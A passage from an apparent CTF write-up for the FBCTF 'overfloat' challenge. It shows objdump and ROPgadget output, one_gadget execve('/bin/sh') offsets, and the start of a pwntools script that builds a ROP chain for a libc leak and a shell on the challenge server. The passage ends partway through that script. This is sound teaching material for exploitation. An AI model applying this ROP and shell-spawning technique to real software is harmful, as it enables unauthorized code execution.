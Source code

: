 Next find the got entry address for puts:

```
$	objdump -R overfloat | grep puts
0000000000602020 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
```

Finally we just need to gadget to pop an argument into the `rdi` register than return:

```
$	python ROPgadget.py --binary overfloat | grep "pop rdi"
0x0000000000400a83 : pop rdi ; ret
```

Also for the loop around address, I just tried the start of main and it worked. After we get the libc infoleak we can just subtract the offset of puts from it to get the libc base. The only part that remains is the onegadget. I just tried the first one and it worked (I decided to go with guess and check instead of checking the conditions when the gadget would be executed):

```
$	one_gadget libc-2.27.so 
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
```

With that we have everything we need to build our exploit. Since all of our inputs are interpreted as floats, we have to jump through a few hoops in order to get our inputs correct:

```
from pwn import *
import struct

# Establish values for the rop chain
putsPlt = 0x400690
putsGot = 0x602020
popRdi = 0x400a83

startMain = 0x400993
oneShot = 0x4f2c5

# Some helper functions to help with the float input
# These were made by qw3rty01
pf = lambda x: struct.pack('f', x)
uf = lambda x: struct.unpack('f', x)[0]

# Establish the target, and the libc file
target = remote("challenges.fbctf.com", 1341)
#target = process('./overfloat')
#gdb.attach(target)

# If for whatever reason you are usign a different libc file, just change it out here and it should work
libc = ELF('libc-2.27.so')

# A helper function to send input, made by a team mate
def sendVal(x):
    v1 = x & ((2**32) - 1)
    v2 = x >> 32
    target.sendline(str(uf(p32(v1))))
    target.sendline(str(uf(p32(v2))))
```